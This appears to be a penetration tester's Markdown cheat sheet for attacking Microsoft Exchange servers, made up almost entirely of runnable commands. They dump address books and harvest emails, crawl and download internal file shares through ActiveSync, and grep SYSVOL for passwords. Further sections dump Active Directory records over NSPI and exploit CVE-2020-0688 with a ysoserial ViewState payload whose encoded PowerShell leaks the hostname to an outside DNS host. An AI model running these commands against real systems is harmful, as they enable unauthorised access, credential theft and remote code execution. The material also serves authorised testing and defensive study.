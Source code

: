 # Exchange

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)

![Pentesting Exchange Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png)




## GAL



### Ruler

```
$ ./ruler -k -d megacorp.com -u snovvcrash -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose abk dump -o gal.txt
```



### MailSniper

```
PS > Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName MEGACORP\snovvcrash -Password 'Passw0rd!' -OutFile gal.txt
```



### OAB

Search for `<OABUrl>` node using Burp:

```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mx.megacorp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Authorization: Basic TUVHQUNPUlBcc25vdnZjcmFzaDpQYXNzdzByZCEK
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 350

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>snovvcrash@megacorp.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

Or with a Python [script](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438):

```
$ ./oaburl.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -e 'exists@megacorp.com'
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-3167813660-1240564177-918740779-3102
[+] DisplayName: Sam Freeside
[+] Server: 00ff00ff-00ff-00ff-00ff-00ff00ff00ff@megacorp.com
[+] AD: dc01.megacorp.com
[+] OABUrl: https://mx.megacorp.com/OAB/<OABUrl>/
```

Get `oab.xml` and then `oab.lzx`:

```
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/oab.xml > oab.xml
$ cat oab.xml | grep '.lzx' | grep data
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/<LZXUrl> > oab.lzx
```

Install libmspack:

```
$ git clone https://github.com/kyz/libmspack ~/tools/libmspack && cd ~/tools/libmspack/libmspack
$ sudo apt install autoconf automake libtool -y
$ ./rebuild.sh && ./configure && make && cd -
```

Parse `oab.lzx` into `oab.txt` and extract emails from `oab.txt` with a regexp:

```
$ ~/tools/libmspack/libmspack/examples/oabextract oab.lzx oab.txt
$ strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" | sort -u > emails.txt
```




## ActiveSync



### PEAS

* [https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [https://github.com/FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [https://github.com/snovvcrash/peas](https://github.com/snovvcrash/peas)

Install:

```
$ git clone https://github.com/snovvcrash/peas ~/tools/peas-m && cd ~/tools/peas-m
$ python3 -m virtualenv --python=/usr/bin/python venv && source venv/bin/activate
(venv) $ pip install --upgrade 'setuptools<45.0.0'
(venv) $ pip install -r requirements.txt
```

Run:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --check
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01\SYSVOL\megacorp.com'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt' -o file.txt
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\share\' [--pattern xml,ini] [--download]
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --brute-unc [--prefix srv]
```



### How-To

1\. Use Nmap `http-ntlm-info` to get NetBIOS domain name and Exchange hostname: hunting for hostname pattern prefix if there is one.

2\. Locate DC (guess it trying hostname pattern prefix) and mirror `\\DC01\SYSVOL\megacorp.local\` share with `--crawl-unc` function:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\SYSVOL\megacorp.com\' --download
```

3\. Find, xargs and grep for keywords in files: `password`, NetBIOS domain name (for additional account names), hostname pattern prefix (for additional hosts/shares):

```
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i -e password -e pass
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <DOMAIN_NETBIOS_NAME>
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <PREFIX>
```

4\. (optional) Brute other share names:

```
$ python -m peas --brute-unc -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com [--prefix srv]
```




## CVE-2020-0688

* [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)
* [https://github.com/MrTiz9/CVE-2020-0688](https://github.com/MrTiz9/CVE-2020-0688)

```
Get ViewStateUserKey: Browser > F12 > Storage > ASP.NET_SessionId
Get ViewStateGenerator: Browser > F12 > Console > document.getElementById("__VIEWSTATEGENERATOR").value
PS > [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$name = hostname;nslookup "$name.0000000000ffffffffff.d.zhack.ca"'))
PS > .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc <BASE64_CMD>" --validationalg "SHA1" --validationkey "CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --viewstateuserkey "<VIEWSTATE>" --generator "<GENERATOR>" --islegacy --isdebug
https://mx.megacorp.com/ecp/default.aspx?__VIEWSTATEGENERATOR=<GENERATOR>&__VIEWSTATE=<VIEWSTATE>
```




## NSPI

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [https://github.com/ptswarm/impacket](https://github.com/ptswarm/impacket)

* `>= Impacket v0.9.22.dev1+20200819.170651.b5fa089b`

List Address Books and count entities in every one of them:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi list-tables -count
```

Dump any specified Address Book by its name or GUID:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dump-tables -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type EXTENDED -output-file gal.txt
$ cat gal.txt | grep 'mail,' | sort -u | awk -F' ' '{print $3}' > emails.txt
```

Return AD objects by their GUIDs:

```
PS > (Get-ADuser -Identity snovvcrash).ObjectGUID
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi guid-known -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type FULL
```

Dump all AD records via requesting DNTs:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dnt-lookup -lookup-type EXTENDED -start-dnt 0 -stop-dnt 500000 -output-file dnt-dump.txt
```
